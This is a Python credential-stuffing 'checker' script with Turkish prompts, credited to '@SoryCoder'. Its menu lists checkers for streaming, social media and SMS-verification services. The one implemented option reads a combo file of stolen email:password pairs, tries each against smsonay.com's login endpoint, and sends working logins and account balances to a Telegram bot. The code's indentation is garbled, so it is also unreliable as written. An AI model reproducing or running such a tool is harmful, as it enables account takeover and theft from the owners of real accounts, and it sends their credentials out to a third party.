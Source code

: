 import requests
import os
from cfonts import render       


Z = '\x1b[1;31m'
X = '\x1b[1;33m'
F = '\x1b[2;32m'
C = '\x1b[1;97m'
B = '\x1b[2;36m'
Y = '\x1b[1;34m'
C = '\x1b[1;97m'
y = '\x1b[1;35m'
f = '\x1b[2;35m'
z = '\x1b[3;33m'
G = '\x1b[2;36m'
E = '\x1b[1;31m'
DS = '\x1b[30m'
V = '\x1b[1;35m'
Z = '\x1b[1;31m'
X = '\x1b[1;33m'
Z1 = '\x1b[2;31m'
F = '\x1b[2;32m'
A = '\x1b[2;34m'
C = '\x1b[2;35m'
B = '\x1b[2;36m'
Y = '\x1b[1;34m'
M = '\x1b[1;37m'
S = '\x1b[1;33m'
U = '\x1b[1;37m'
Z = '\x1b[1;31m'
X = '\x1b[1;33m'
F = '\x1b[2;32m'
O = '\x1b[38;5;208m'
BL = '\x1b[38;5;21m'
YU = '\x1b[38;5;200m'

print("\x1b[1;39m—" * 60)
logo = render('THOMAS', colors=['green', 'white'], align='center', line_height=0)
print(logo)  
print("\x1b[1;39m—" * 60)

print("\x1b[38;5;117m  1\x1b[38;5;231m - TV Plus Checker | \x1b[1;32m aktif ✅")
print("\x1b[38;5;117m  2\x1b[38;5;231m - Blu TV Checker  | \x1b[1;32m aktif ✅")
print("\x1b[38;5;117m  3\x1b[38;5;231m - Exxen Checker   | \x1b[1;32m aktif ✅")
print("\x1b[38;5;117m  4\x1b[38;5;231m - Beymen Checker   | \x1b[1;32m aktif ✅")
print("\x1b[38;5;117m  5\x1b[38;5;231m - Tiktok Checker   | \x1b[1;32m aktif ✅")
print("\x1b[38;5;117m  6\x1b[38;5;231m - Bilyoner Checker   | \x1b[1;32m aktif ✅")
print("\x1b[38;5;117m  7\x1b[38;5;231m - Hotmail Checker   | \x1b[1;32m aktif ✅")
print("\x1b[38;5;117m  8\x1b[38;5;231m - Disney Checker   | \x1b[1;32m aktif ✅")
print("\x1b[38;5;117m  9\x1b[38;5;231m - Sms Onay Checker   | \x1b[1;32m aktif ✅")
print("\x1b[38;5;117m  10\x1b[38;5;231m - D - Smart  Checker   | \x1b[1;32m aktif ✅")
print("\x1b[38;5;117m  11\x1b[38;5;231m - Facebook Checker   | \x1b[1;32m aktif ✅")
print("\x1b[38;5;117m  12\x1b[38;5;231m - Instagram Checker   | \x1b[1;32m aktif ✅")



pss = input (Y+'hangi işlemi yapmak istiyorsunuz :  ')
os.system('clear')
print(G)


if pss in '1':
	import requests
    import os
    s = '\033[33m'
    o = '\033[35m'
    r = '\033[32m'
    y = '\033[31m'
    print(f'{s}Dev: @SoryCoder')
    sory = input(f'{o}Combo Yolu Gir: ')
    os.system('clear')
    print(f'{s}Dev: @SoryCoder')
    token = input(f'{o}Token Gir: ')
    os.system('clear')
    print(f'{s}Dev: @SoryCoder')
    ID = input(f'{o}İd Gir: ')

    def sorii(email, password):
        url = "https://www.smsonay.com/ajax/login"
            soryders = {
                    'User-Agent': "Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Mobile Safari/537.36",
                            'x-requested-with': "XMLHttpRequest",
                                }
                                    soribaba = {
                                            'email': email,
                                                    'password': password,
                                                        }
                                                            response = requests.post(url, data=soribaba, headers=soryders)

                                                                try:
                                                                        result = response.json()
                                                                                if result.get('success'):
                                                                                            bakiye = result.get('bakiye', 'unknown')
                                                                                                        print(f'{r}Giriş Başarılı: {email}:{password} Bakiye: {bakiye}\n@SoryCoder')
                                                                                                                    soryi = f"""
                                                                                                                    ════════════════
                                                                                                                    Mail: {email}
                                                                                                                    Şifre: {password}
                                                                                                                    Bakiye: {bakiye}
                                                                                                                    ═════════════════
                                                                                                                    By • @SoryCoder"""
                                                                                                                                requests.get(f'https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text={soryi}')
                                                                                                                                        else:
                                                                                                                                                    print(f'{y}Giriş Başarısız: {email} : {password}\n@SoryCoder')

                                                                                                                                                        except ValueError:
                                                                                                                                                                print(f'Hata: Geçersiz yanıt alındı: {response.text}')

                                                                                                                                                                try:
                                                                                                                                                                    with open(sory, 'r') as dosya:
                                                                                                                                                                            for satir in dosya:
                                                                                                                                                                                        parts = satir.strip().split(':')
                                                                                                                                                                                                    if len(parts) == 2:
                                                                                                                                                                                                                    email, password = parts
                                                                                                                                                                                                                                    sorii(email, password)
                                                                                                                                                                                                                                                else:
                                                                                                                                                                                                                                                                print(f'Hatalı format: {satir.strip()}')
                                                                                                                                                                                                                                                                except FileNotFoundError:
                                                                                                                                                                                                                                                                    print('Combo bulunamadı')
                                                                                                                                                                                                                                                                    